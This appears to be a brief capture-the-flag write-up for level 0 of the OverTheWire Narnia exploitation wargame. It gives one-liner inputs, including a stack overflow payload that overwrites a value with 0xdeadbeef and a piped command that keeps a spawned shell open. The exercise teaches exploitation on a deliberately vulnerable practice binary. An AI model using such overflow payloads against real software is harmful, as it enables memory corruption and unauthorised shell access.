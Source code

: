 **>> Details: [https://overthewire.org/wargames/narnia/](https://overthewire.org/wargames/narnia/)**

> This wargame is for the ones that want to learn basic exploitation. You can see the most
common bugs in this game and we've tried to make them easy to exploit. You'll get the
source code of each level to make it easier for you to spot the vuln and abuse it. The
difficulty of the game is somewhere between Leviathan and Behemoth, but some of the
levels could be quite tricky.

![grafik](https://user-images.githubusercontent.com/84674087/142839640-d5296859-5d88-4d7e-8d83-a703d855b394.png)


## Narnia 0

![grafik](https://user-images.githubusercontent.com/84674087/142839936-9a2f374f-9862-45a3-831b-77ca618ca65a.png)

#### Solution

- Run a one-liner in the terminal, used as input for your script
   - Option 1): ``` ./script `python3 -c "print('A' * 5)"` ```
   - Option 2): `python -c "print('hallo')" | ./script`
   - Option 3): `python -c "print('B'*20 + '\xef\xbe\xad\xde')" | ./narnia0`
   - Option 4): `(python -c "command1" ; command2 ; cat) | ./narnia0`  --> "cat" keeps shell open (!)

<br />

